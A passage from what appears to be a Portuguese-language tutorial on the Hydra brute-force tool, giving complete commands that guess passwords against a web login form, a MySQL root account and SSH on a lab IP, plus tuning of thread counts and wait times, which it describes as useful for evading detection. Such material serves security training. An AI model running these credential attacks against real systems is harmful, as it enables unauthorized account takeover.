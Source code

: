 `VNC`: Ataques a servidores de Virtual Network Computing.

- Cada protocolo tem suas particularidades, e o Hydra permite personalizar o ataque de acordo com o serviço.

#

# Ataques Personalizados com Hydra
- Ataque a Formulários Web (HTTP/HTTPS)
Muitos sites possuem formulários de login, e o Hydra pode ser usado para testar combinações de usuário/senha nesses formulários. Para isso, você precisa identificar os parâmetros do formulário (como username e password) e o método de envio (GET ou POST).

- Exemplo de comando:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.0.26 http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect" -vV
```
`http-post-form`: Especifica que o formulário usa o método POST.

`/login.php`: O caminho para a página de login.

`username=^USER^&password=^PASS^`: Os campos do formulário, onde ^USER^ e ^PASS^ são substituídos pelo Hydra.

`F=incorrect`: Indica que a mensagem "incorrect" aparece quando o login falha.

# Ataque a Banco de Dados (MySQL)
- Para atacar um banco de dados MySQL, você pode usar o seguinte comando:

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.0.26 mysql -vV
```
`mysql`: Especifica o protocolo MySQL.

`-l root`: Tenta o usuário root.

`-P /usr/share/wordlists/rockyou.txt`: Usa a lista de senhas rockyou.txt.

# Otimização de Ataques
- Ajuste de Threads (-t)
O número de threads (-t) controla quantas tentativas o Hydra faz simultaneamente. Aumentar o número de threads pode acelerar o ataque, mas também pode sobrecarregar o servidor ou causar bloqueios.

- Exemplo:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 20 ssh://192.168.0.26
```
`-t 20`: Usa 20 threads simultâneas.

- Tempo de Espera (-w)
O tempo de espera (-w) define quanto tempo o Hydra espera entre as tentativas. Isso pode ser útil para evitar detecção ou bloqueio.
